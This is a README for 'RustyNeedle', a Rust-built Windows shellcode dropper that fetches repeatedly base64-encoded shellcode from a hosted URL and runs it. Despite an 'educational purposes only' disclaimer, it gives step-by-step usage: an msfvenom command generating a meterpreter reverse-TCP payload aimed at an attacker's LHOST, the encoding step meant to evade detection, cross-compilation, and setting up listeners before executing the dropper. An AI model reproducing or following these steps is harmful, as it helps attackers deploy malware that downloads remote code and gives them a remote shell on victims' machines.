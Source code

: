 # RustyNeedle

**THIS CODE IS FOR EDUCATIONAL PURPOSES ONLY. I take no responsibility if you decide to do crimes with this code.**

A simple dropper for shellcode that leverages the power of...base64 encoding??

No seriously. And it works. Here's how:

## Usage

1. Create your shellcode however you like, be it with `msfvenom` or other tools. Export the raw shellcode file.

2. Use the encode.py script provided in this repository to create an encoded version of the shellcode. 

```bash
python3 encode.py [SHELLCODE_FILE] [B64_ITERATIONS] [OUT_FILE]
```

### Arguments

* `SHELLCODE_FILE`: raw shellcode file to encode
* `B64_ITERATIONS`: # of times to base64-encode the shellcode
* `OUT_FILE`: Resulting text file of the encoded shellcode. **NOTE:** this will be many times larger than the source!

### Alternative usage

If you don't want to use the script, you can also encode raw shellcode from `msfvenom`. It would go something like this:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw | base64 -w 0 > note.txt
# Pipe to base64 -w 0 as many times as you want to iterate the encoding
```
3. Edit the source code in `src/main.rs` to reflect the `URL` where the encoded shellcode will be hosted.

4. Run `cargo build --target x86_64-pc-windows-gnu --release`. If building on Linux for Windows, make sure you've added the Windows target triple with `rustup target add x86_64-pc-windows-gnu`.

5. Copy the resulting exe in `target/x86_64-pc-windows-gnu/release/rustyneedle.exe` wherever you like.

6. Set up any listeners, then execute the dropper!

